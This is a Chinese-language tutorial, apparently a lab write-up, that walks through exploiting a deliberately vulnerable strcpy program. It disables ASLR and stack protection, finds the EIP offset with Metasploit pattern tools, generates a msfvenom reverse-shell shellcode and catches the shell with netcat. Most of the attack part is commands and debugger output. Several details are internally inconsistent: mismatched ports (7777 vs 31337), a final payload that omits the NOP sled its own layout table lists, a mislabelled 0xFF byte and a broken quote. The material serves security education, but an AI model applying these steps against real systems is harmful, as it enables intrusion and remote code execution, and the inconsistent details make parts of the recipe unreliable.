

## 危险的C函数

- 在你上大学的时候，老掉牙的《C语言程序设计》或许会为你介绍几个常见的C语言函数。他们很常见，你期末考试的时候都会用到它们。但是它们是不安全的。
- 这包括：
	- `strcpy`
	- `gets`
	- `scanf`
	- `sprintf`
	- `strcat`
	- .....
- 它们并不“内存安全”。或许你在`Visual Studio`编写一个简单的小程序时用到了`strcpy`，它会马上弹出警告`C4996: '_strcpy_': This function or variable may be unsafe`。不懂为什么的你，上网搜索了关闭这个警告的教程，让你的小程序继续跑了下去。
- 今天让我们一起做个小实验，来看看为什么它是不安全的。就以`strcpy为例`。


## 使用strcpy编写不安全的代码

> 库函数 `strcpy` 负责字符串复制。定义如下，把 `src` 所指向的字符串复制到 `dest`。


```c
char *strcpy(char *dest, const char *src)
```

如果目标数组 `dest` 不够大，而源字符串的长度又太长，会造成缓冲溢出的情况。

据此，我们编写一段使用了这个函数的、有缺陷的代码。目标数组的大小限定在了`1024`。

```c
#include <stdio.h>
#include <string.h>

int dangerous(char *string) {
	char buffer[1024];
	strcpy(buffer, string);
	return 1;
}

int main(int argc, char *argv[]) {

	dangerous(argv[1]);
	return 1;
}
```


## 内存空间




### .text
- `.text` 段包含程序的实际汇编指令。此区域可以是只读的，以防止进程意外修改其指令。任何写入此区域的尝试都将不可避免地导致段错误。
### .data

- `.data `部分包含由程序明确初始化的全局变量和静态变量。
### .bss

- 一些编译器和链接器使用` .bss `部分作为数据段的一部分，其中包含由 0 位专门表示的静态分配变量。

### 堆

- 堆内存从该区域分配。该区域从`.bss`段的末尾开始，向更高的内存地址增长。
- 堆的内存是个一复杂的知识点，但是与本节内容无关。故省略。

### 栈

- 栈内存是一种后进先出`（Last-In-First-Out）`的数据结构，其中存储着返回地址、参数，以及根据编译器选项不同，还存储着帧指针。`C/C++ `的局部变量存储在这里，你可以将代码复制到栈上。栈是 `RAM`中一个预先定义的区域。链接器会保留这块区域，并且将栈放置在 RAM 的较低区域，位于全局变量和静态变量之上。栈的内容通过栈指针`（stack pointer）`访问，栈指针在初始化时被设置为栈的上限。在程序执行期间，栈的已分配部分向下增长，流向较低的内存地址。

- 内存保护机制可以阻止缓冲区溢出造成的破坏。`DEP`（数据执行保护）将内存区域标记为只读。这些“只读”内存区域是存储某些用户输入的地方（例如：栈），所以 `DEP` 背后的思想是阻止用户将 `Shellcode` 上传到内存，然后设置指令指针跳转到 `Shellcode` 执行。黑客开始利用 `ROP`（面向返回编程）来绕过这一点，因为它允许他们将 `Shellcode` 上传到可执行的内存空间，并使用程序中已有的函数调用来执行 `Shellcode`。

- 使用 `ROP`，攻击者需要知道各种数据存储的内存地址，因此，针对 `ROP` 的防御措施是实施 `ASLR`（地址空间布局随机化），它会将所有东西（如栈、堆等）的存储位置随机化，从而增加 `ROP` 的难度。

### 关闭ASLR

由于`ASLR`会大大增加实验难度，因此我们将它关闭。在`Linux`环境中，于命令行中输入以下内容。

```shell
sudo su
echo 0 > /proc/sys/kernel/randomize_va_space
```


## 编译C代码

我们要把C代码文件编译成32位的ELF二进制文件，输入以下命令到命令行
```shell
gcc filename.c -o demo -fno-stack-protector -z execstack -m32
```

确保你有安装`gcc-multilib`。如果没有，请安装它，以下以`apt`为例。

```shell
sudo apt install gcc-multilib
```


## GDB

> GDB，即 GNU 调试器，是 GNU 项目开发的 Linux 系统标准调试器。它已被移植到许多系统，支持 C、C++、Java 等多种编程语言。

- `GDB` 提供了常用的可追溯性功能，例如断点或堆栈跟踪输出，并允许我们干预程序的执行。它还允许我们操作应用程序的变量或独立于程序正常执行调用函数。

- 我们使用 `GDB`在汇编器级别查看创建的二进制文件。使用` GDB `执行二进制文件后，我们就可以反编译程序的函数。

`gdb -q`其中的 `-q` 是 **quiet**（静默模式）的缩写。使用 `-q` 选项时，`GDB` 启动时会抑制一些初始化信息和欢迎消息，使得调试器更简洁、直接地进入调试状态。

```shell
gdb -q demo
```

`disas main`则是**反汇编** 程序的 `main` 函数的命令。第一列中的十六进制数字表示内存地址。带有加号 (+) 的数字表示用于相应指令的内存地址跳转（以字节为单位）。当然。`disas`后面可以是其他函数。`disas` 是 `disassemble` 的缩写。

```shell
(gdb) disas main
Dump of assembler code for function main:
   0x000011d2 <+0>:     lea    ecx,[esp+0x4]
   0x000011d6 <+4>:     and    esp,0xfffffff0
   0x000011d9 <+7>:     push   DWORD PTR [ecx-0x4]
   0x000011dc <+10>:    push   ebp
   0x000011dd <+11>:    mov    ebp,esp
   0x000011df <+13>:    push   ebx
   0x000011e0 <+14>:    push   ecx
   0x000011e1 <+15>:    call   0x10a0 <__x86.get_pc_thunk.bx>
   0x000011e6 <+20>:    add    ebx,0x2e0e
   0x000011ec <+26>:    mov    eax,ecx
   0x000011ee <+28>:    mov    eax,DWORD PTR [eax+0x4]
   0x000011f1 <+31>:    add    eax,0x4
   0x000011f4 <+34>:    mov    eax,DWORD PTR [eax]
   0x000011f6 <+36>:    sub    esp,0xc
   0x000011f9 <+39>:    push   eax
   0x000011fa <+40>:    call   0x119d <dangerous>
   0x000011ff <+45>:    add    esp,0x10
   0x00001202 <+48>:    sub    esp,0xc
   0x00001205 <+51>:    lea    eax,[ebx-0x1fec]
   0x0000120b <+57>:    push   eax
   0x0000120c <+58>:    call   0x1050 <puts@plt>
   0x00001211 <+63>:    add    esp,0x10
   0x00001214 <+66>:    mov    eax,0x1
   0x00001219 <+71>:    lea    esp,[ebp-0x8]
   0x0000121c <+74>:    pop    ecx
   0x0000121d <+75>:    pop    ebx
   0x0000121e <+76>:    pop    ebp
   0x0000121f <+77>:    lea    esp,[ecx-0x4]
   0x00001222 <+80>:    ret
End of assembler dump.

```


## 寄存器

### 数据寄存器

| **32位寄存器** | **64位寄存器** |            **描述**            |
| :--------: | :--------: | :--------------------------: |
|   `EAX`    |   `RAX`    |       累加器用于输入/输出和算术运算        |
|   `EBX`    |   `RBX`    |         基址寄存器用于索引寻址          |
|   `ECX`    |   `RCX`    |       计数寄存器用于旋转指令和计数循环       |
|   `EDX`    |   `RDX`    | 数据寄存器用于输入/输出和在涉及大数值的乘法和除法运算中 |

### 指针寄存器

| **32位寄存器** | **64位寄存器** |           **描述**           |
| :--------: | :--------: | :------------------------: |
|   `EIP`    |   `RIP`    |    指令指针存储下一个要执行的指令的偏移地址    |
|   `ESP`    |   `RSP`    |         栈指针指向栈的顶部          |
|   `EBP`    |   `RBP`    | 基址指针，也叫做栈基指针或帧指针，用于指向栈的基地址 |
|            |            |                            |

## 栈帧

由于栈始于高地址，并随着数值的添加向下增长到低内存地址，基指针指向栈的起点（基址），这与指向栈顶的栈指针形成对比。

随着栈的增长，它在逻辑上被划分为称为栈帧的区域，这些区域为对应的函数在栈上分配所需的内存。栈帧定义了一个数据框架，包含起点（EBP）和终点（ESP），在调用函数时被压入栈。

由于栈内存基于后进先出的数据结构，第一步是将前一个 EBP 的位置存储在栈上，以便在函数完成后可以恢复它。如果我们现在看看 `dangerous` 函数，它在 GDB 中看起来是这样的：

```shell
(gdb) disas dangerous 
Dump of assembler code for function dangerous: 
0x0000054d <+0>: push ebp # <---- 1. 存储前一个 EBP 
0x0000054e <+1>: mov ebp,esp # <---- 2. 创建新的栈帧 
0x00000550 <+3>: push ebx 
0x00000551 <+4>: sub esp,0x404 # <---- 3. 将 ESP 移动到栈顶 
<...SNIP...> 
0x00000580 <+51>: leave 
0x00000581 <+52>: ret 
End of assembler dump.
```

调用函数时，首先设置栈帧中的 EBP，它包含前一个栈帧的 EBP 值。接着，将 ESP 的值复制给 EBP，创建一个新的栈帧。然后将 EBX 压栈（在此例中），接着在栈中创建一些空间（通过减小 ESP 的值，因为栈向下增长），将 ESP 移动到栈顶，用于存放局部变量和进行操作。


## 缓冲区溢出

> 缓冲区溢出是由程序代码不正确造成的，程序无法正确处理过大的数据量，从而可能操控CPU的处理过程。假设过多的数据被写入到一个没有限制的预留内存缓冲区或栈中，那么特定的寄存器将被覆盖，这可能会允许代码的执行。

缓冲区溢出可能导致程序崩溃、数据损坏，或者破坏程序在运行时的数据结构。最严重的情况是，它可能会覆盖程序的返回地址，填入任意的数据，从而允许攻击者执行特定命令，这些命令会以受溢出漏洞影响的进程权限运行。

缓冲区溢出问题的根本原因在于一些编程语言没有自动检查内存缓冲区或栈的大小，防止溢出。这些语言包括C和C++，它们注重性能，而不要求自动进行边界检查。

因此，开发者需要在代码中手动定义这些内存区域，这就增加了漏洞的风险。很多时候，这些区域可能因为测试需要或者疏忽而未定义，即使是为了测试而设置的区域，最终也可能被忽略掉。

并不是所有的应用环境都会出现缓冲区溢出问题。Java应用程序发生缓冲区溢出的可能性较小，因为Java有自己的内存管理机制。Java使用垃圾回收机制来管理内存，这有助于防止缓冲区溢出的发生。


## 控制EIP

基于堆栈的缓冲区溢出最重要的方面之一是控制指令指针 (EIP)，这样我们就可以告诉它应该跳转到哪个地址。这将使 `EIP` 指向我们的 `Shellcode` 的起始地址，并使 CPU 执行它。

我们可以使用 `Python` 在 `GDB` 中执行命令，`Python` 直接作为我们的输入。方法如下：

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 32 + b"\x90" * 27)')
```

总之，你需要修改的只有`write()`内的内容。让我们随便输入一些东西尝试：

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1500 )')
```


```shell
└─$ gdb -q demo    
Reading symbols from demo...
(No debugging symbols found in demo)
(gdb) run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1500)')
Starting program: /home/killua/Dev/Lab/StackOverFlow/demo $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1500)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()


(gdb) info register
eax            0x1                 1
ecx            0xffffcfe0          -12320
edx            0xffffc8c8          -14136
ebx            0x55555555          1431655765
esp            0xffffc700          0xffffc700
ebp            0x55555555          0x55555555  # <---- EBP overwritten
esi            0x56558eec          1448447724
edi            0xf7ffcb60          -134231200
eip            0x55555555          0x55555555  # <---- EIP overwritten
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) 

```

如果我们输入 1500 个“U”（十六进制“55”），输入`info register`查看寄存器信息，我们可以从寄存器信息中看到，我们已经覆盖了 `EIP`的内容。`EIP` 指向下一条要执行的指令。

### 确定偏移量

> 偏移量用于确定覆盖缓冲区所需的字节数以及 `Shellcode` 周围有多少空间。

`Shellcode` 是16进制的机器码，其中包含我们希望 CPU 执行的操作指令。我们使用 `Metasploit` 框架，它有一个名为`pattern_create`的脚本，可以帮助我们确定到达 `EIP` 所需的确切字节数。能帮助我们确定偏移量。


```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500 > pattern.txt

cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5....Bx3Bx4Bx5Bx6Bx7Bx8Bx9
```

现在，不再用1500个`\x55`了，而是把这个文件内的内容传入。注意，以下代码中间有省略，你需要复制粘贴你生成的内容，并不包含省略号。

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"Aa0Aa1Aa2Aa3Aa4Aa5....Bx3Bx4Bx5Bx6Bx7Bx8Bx9" )')
```

然后观察输出，也可以输入`info register`查看寄存器

```shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
(gdb) info register
eax            0x1                 1
ecx            0xffffcfe0          -12320
edx            0xffffc8c8          -14136
ebx            0x33694232          862536242
esp            0xffffc700          0xffffc700
ebp            0x42346942          0x42346942
esi            0x56558eec          1448447724
edi            0xf7ffcb60          -134231200
eip            0x69423569          0x69423569
eflags         0x10286             [ PF SF IF RF ]

```

`EIP`内是`0x69423569`，和刚刚不一样了。我们可以使用另一个名为“`pattern_offset`”的 `MSF` 工具来计算前进到 `EIP` 所需的确切字符数（偏移量）。

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

确切的偏移量是`1036`。如果我们现在恰好使用这个字节数作为“U”的数目，那么我们应该就能准确地到达 `EIP`。为了检验正确性，我们可以使用1036个`\x55` 和4个`\x66`。

```shell
(gdb) run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1036 + b"\x66"*4 )')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/killua/Dev/Lab/StackOverFlow/demo $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1036 + b"\x66"*4 )')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
(gdb) info register
eax            0x1                 1
ecx            0xffffcfe0          -12320
edx            0xffffc8bc          -14148
ebx            0x55555555          1431655765
esp            0xffffc8c0          0xffffc8c0
ebp            0x55555555          0x55555555
esi            0x56558eec          1448447724
edi            0xf7ffcb60          -134231200
eip            0x66666666          0x66666666
eflags         0x10282             [ SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99

```


非常完美，`EIP`是`0x66666666`，符合预期。


## Shellcode的长度

现在我们应该确定有多少空间供我们的`shellcode`执行我们想要的操作。利用这样的漏洞来获取`反向shell`很实用。首先，我们需要确定要插入的`shellcode`大约有多大，使用`msfvenom`。

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=7777 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes

```

我们知道了`Shellcode`的大小是`68 bytes`，但是我们应该预留一些更多空间，因为如果需要对此加密或编码，它的大小会增加。此外，我们可以在Shellcode前加入一些空指令（NOP），机器码是`\x90`。空指令的作用是什么？我们稍后解答。

### 坏字节

二进制文件以两个字节开头，其中包含一个用于确定文件类型的“魔数”。最初，它用于识别不同平台的目标文件。逐渐地，这个概念被转移到其他文件，现在几乎每个文件都包含一个魔数。

此类保留字符也存在于应用程序中，但它们并非总是出现，而且也各不相同。这些保留字符（也称为坏字符）可能有所不同，但我们经常会看到类似这样的字符：

| **\x00** | **\x0A** | **\x0D** | **\xFF** |
| :------: | :------: | :------: | :------: |
| **空字节**  |  **换行**  |  **回车**  |  **换页**  |
在生成shellcode的时候，我们需要避免这些坏字节的出现。使用一个`256 bytes`长度的字符串检测

```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

当前，我们的输入布局如下：

| **CHARS**  |       **256**        |
| :--------: | :------------------: |
|  **EIP**   |        **4**         |
| **Buffer** | **1036 - 256 = 780** |
进入`gdb`，给我们的`dangerous`函数打断点

```shell
(gdb) disas main
(gdb) break dangerous
```

输入我们构想的载荷：

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55"*780 + b"\x00\x01\x02\x03\x04\x05...xfb\xfc\xfd\xfe\xff" + b"\x66"*4 )')
```

检查内存：

```
x/2000xb $esp+500
```

这是一个在 GDB (GNU Debugger) 中用于**检查内存**的命令。
- **`x`**: 这是命令本身，表示 "examine"（检查）。
- **`/`**: 这是分隔符，用于分隔 `x` 命令和后面的格式规范。
- **`2000`**: 这是要检查的**数量**，表示要显示多少个单位的内容。这里是 2000 个单位。
- **`x`**: 这是要显示的**格式**，`x` 表示以**十六进制**格式显示每个单位。
- **`b`**: 这是检查的**大小单位**，`b` 表示以**字节**（1 个字节）为单位。
所以，`x/2000xb` 连起来的意思就是：**从指定地址开始，以每字节为单位，按十六进制格式，显示接下来的 2000 个字节的内容。**
- **`$esp`**: 这是**栈指针寄存器**（在 32 位系统上）。它指向当前函数栈帧的栈顶（即最低地址）。
- **`+500`**: 表示在 `$esp` 寄存器当前指向的内存地址上，**增加 500 个字节**作为开始检查的地址。

**因此，完整的命令 `x/2000xb $esp+500` 的意思是：**

**“检查从栈指针 `$esp` 寄存器当前指向的地址向上偏移 500 字节处开始的内存区域，显示接下来的 2000 个字节的内容，并将每个字节的值以十六进制形式展示。”**

- 接下来你需要找到`\x55`结束、`\x00`开始的地方。当然，你可能会发现没有`\x00`，直接从`\x01`开始。**这并不绝对**。但是，你需要从头找到尾，找到以下两种情况。
	- 缺失：如果缺少了某一项，比如缺少了`\x00`，那么你需要去掉`CHARS`里的这一项，并把长度`256`减去`1`，变为`255`。
	- 替换：本应是其他项的，但是却变成了错误的项。比如本应是`\x09`的位置上出现了`\x00`，那么你也需要去掉`CHARS`里的这一项，并把长度`256`减去`1`，变为`255`。
	- 当然，如果上面的同时存在，那么长度就是`254`。如果还有其他，则需要继续删减。


## Shellcode的生成

我们需要给`msfvenom`指出坏字符有哪些。每个人的不一致，所以你需要改成自己的。
```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x0a --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode

```

需要关心的是`shellcode`的长度是`95 bytes`。这意味着载荷要发生一些改变。

|    **NOP**    |     **124**（可变 不绝对）     |
| :-----------: | :---------------------: |
| **Shellcode** |         **95**          |
|  **Buffer**   | **1036 - 95-124 = 817** |
|    **EIP**    |          **4**          |
查看内存：`x/2000xb $esp+500`

```shell

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>

```

注意到：`0xffffd65c`上就有`shellcode`开始了。


## 地址跳转的确定

我们需要一个包含 `NOP` 指令的内存地址，以便让 `EIP` 跳转到该地址。该内存地址不能包含我们之前发现的任何恶意字符。在全都是`0x90`的行里挑一个你喜欢的吧。我们就用`0xffffd64c`为例。注意，这是我自己电脑的内存地址。你应该使用的内存地址大概率不是`0xffffd64c`，你需要自己确定。

|      NOP      |         **100**         |       ("\x90")*100       |
| :-----------: | :---------------------: | :----------------------: |
| **Shellcode** |         **95**          |   **("\xda\xca")...**    |
|  **Buffer**   | **1036 - 95-100 = 841** |     *("\x55") * 841*     |
|    **EIP**    |          **4**          | **("\x4c\xd6\xff\xff")** |

## 启动netcat监听

输入以下命令。`7777`是`shellcode`中指定的，需要与`LPORT`一致。

```shell
nc -nlvp 7777
```

## 执行


```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55"*841 + b"\xda\xca\xba...\x5a\x22\xa2" + b"\x4c\xd6\xff\xff" )')
```


### 收到

```shell

Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 7777 received!

```

## 空指令的作用

> **指令本身不执行任何有意义的操作**：当 `CPU` 执行到 `NOP` 指令时，它不做任何计算、不改变任何寄存器或内存状态（除了像其他指令一样，会更新程序计数器指向下一条指令）。
> **只消耗一个指令周期**：`CPU` 会像处理其他指令一样，取出 `NOP` 指令并“执行”它，然后移动到下一条指令。它只是浪费一个或少量 `CPU` 周期。

### NOP 雪橇

- 在缓冲区溢出攻击中，一个主要挑战是精确地知道你放置的 `Shellcode` 在内存中的**准确地址**。由于 `ASLR`，`Shellcode` 在不同运行中的地址可能会有变化。如果无法精确地跳转到 `Shellcode` 的第一个字节，攻击就会失败。
- 为了解决这个问题，攻击者会在 `Shellcode` 前面放置一大段连续的 `NOP` 指令（例如100个或更多 `\x90` 字节）。然后，攻击者尝试让被覆盖的 `EIP` **跳转到这段 `NOP 雪橇`中的任何一个地址**。
- 如果 `EIP` 跳转到了 `NOP 雪橇`的某个位置，`CPU` 会开始执行 `NOP` 指令。由于 `NOP` 什么都不做，它执行完后会简单地移动到下一条指令的地址（即` NOP 雪橇`中的下一个字节）。这样，`CPU` 会一步步地“滑过”整个 `NOP 雪橇`，直到最终到达 `NOP 雪橇`末端紧接着的 `Shellcode` 的第一个字节。
- 攻击者不再需要计算并命中 `Shellcode` 的精确起始地址，只需要命中` NOP 雪橇`的**任意一个地址**，程序执行流最终都能“滑”到 `Shellcode`。攻击者只需要确定一个范围内的地址即可。